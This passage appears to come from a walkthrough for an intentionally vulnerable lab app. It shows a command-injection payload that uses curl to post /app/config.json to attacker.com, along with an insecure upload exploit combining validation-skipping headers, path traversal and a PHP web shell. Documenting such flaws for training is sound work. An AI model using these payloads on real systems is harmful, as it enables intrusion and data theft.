    ```
   ```
5. Data exfiltration via network commands:
   ```
   legitimate_name; curl -d "$(cat /app/config.json)" https://attacker.com/collect
   ```

### Impact
1. Execute arbitrary code with the application's privileges
2. Read sensitive system files
3. Create backdoors for persistent access
4. Pivot to other systems on the network

## 11. Insecure File Upload Vulnerability

**Objective**: Upload malicious files and achieve remote code execution

### Discovery
1. Examine the file upload endpoint:
   ```
   POST /api/upload
   ```
2. Test for security controls and headers that might influence upload behavior
3. Notice that special headers can modify upload behavior:
   ```
   X-Upload-Path: custom directory path
   X-Use-Original-Filename: true
   X-Skip-Validation: true
   ```

### Exploitation Methods

#### Method 1: Custom Headers
1. **Path traversal in upload location**:
   ```
   # Using path traversal to write to a sensitive location
   X-Upload-Path: ../public/images
   ```
2. **Upload a web shell with original filename**:
   ```
   # Set these headers:
   X-Use-Original-Filename: true
   X-Skip-Validation: true
   
   # Upload a PHP file with content:
   <?php
   if(isset($_REQUEST['cmd'])){
     echo "<pre>";
     system($_REQUEST['cmd']);
     echo "</pre>";
   }
   ?>
   ```
